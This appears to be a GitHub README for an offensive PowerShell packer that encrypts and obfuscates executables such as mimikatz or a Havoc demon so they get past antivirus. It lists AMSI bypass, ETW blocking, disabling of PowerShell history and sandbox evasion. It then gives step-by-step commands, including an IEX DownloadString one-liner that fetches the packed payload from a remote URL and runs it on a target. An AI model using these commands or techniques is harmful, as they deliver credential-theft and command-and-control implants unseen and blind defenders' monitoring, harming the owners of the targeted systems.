 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the PE file.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
--- or ---
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
--- or ---
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
